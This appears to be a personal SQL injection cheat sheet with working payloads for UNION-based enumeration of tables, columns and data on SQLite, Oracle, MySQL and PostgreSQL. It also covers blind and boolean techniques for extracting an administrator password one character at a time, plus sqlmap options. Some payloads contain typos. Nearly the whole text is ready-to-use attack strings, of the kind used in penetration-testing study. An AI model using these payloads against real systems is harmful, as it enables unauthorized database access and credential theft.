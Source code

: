 - SQLITE 
  - exist vuln: ' UNION SELECT 1,2'
  - find tables: ' UNION SELECT 1,group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT LIKE 'sqlite_%''
  - find columns: ' UNION SELECT 1,group_concat(column_name) FROM table_name '
  - find content: ' UNION SELECT 1,group_concat(column1 || '-' || column2) FROM table_name '
  
- Find version (always UNION)
  - Microsoft, MySQL	SELECT @@version
  - Oracle	SELECT * FROM v$version
  - PostgreSQL	SELECT version()


#### Find data oracle
Oracle DB: '+UNION+SELECT+NULL,NULL+FROM+v$version--
2 Columns strings: '+UNION+SELECT+'abc','abc'+FROM+v$version--
Show tables: '+UNION+SELECT+table_name,+NULL+FROM+all_tables-- 
Show columns: '+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='table_name'
Find content: '+UNION+SELECT+colum1,+column2,+FROM+discovered_table-- 

### blind
- Change SQL Command in the trackinID + test
- Table exists: ' AND (SELECT 'a' FROM users LIMIT 1)='a;
- Size of string: ' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>§1§)='a;==> payload type number to find 1 until n
  - admin' AND length((SELECT password from users where username='admin'))==37-- -
  
- Getting data string per string:
  - SELECT column FROM table_name LIMIT 0,1-- - //
    - LIMIT start,from_total ==> LIMIT 0,1 = first, from total 1 || LIMIT 0,2 start 0 from total 2
  - SUBSTRING((SELECT column FROM table_name LIMIT 0,1)0,1)

#### binary
- like a% = starting with a
- Find DB name: ' UNION SELECT, NULL,NULL,NULL where database() like '%a' 
- Find table name: ' UNION SELECT NULL,NULL,NULL FROM **information_schema.tables** WHERE **table_schema**='name_db' AND **table_name** like '[]%';--
- find columns 1: ' UNION SELECT NULL,NULL,NULL FROM **information_schema.colums** WHERE **table_name**='name table' AND **column_name** like '[]%';--
- find columns 2: ' UNION SELECT NULL,NULL,[sleep(4)]|NULL FROM **information_schema.colums** WHERE **table_name**='name table' AND **column_name** like '[]%' AND column_name!='found 1';--
- find content: ' UNION SELECT NULL,NULL,NULL FROM **table_name** where **column_1** like 'a%';--

- individual charachter + size
  - ' AND (SELECT 'a' FROM [table]  WHERE [column]='value' AND LENGTH(value)>§1§)='a;==> payload type number to find 1 until n
  -(SQLITE): [known_value]' AND length((SELECT [column] FROM [table] WHERE [column]='value'))==37-- -
 - find substring SQLITE: admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)-- -
 
 ##### sqlmap
- sqlmap
  - -u = url
  - --data="id=123&password=123"
  - --level= ??
  - --risk= ??
  - --dbms=type of db
  - --technique=???
  - --dumb
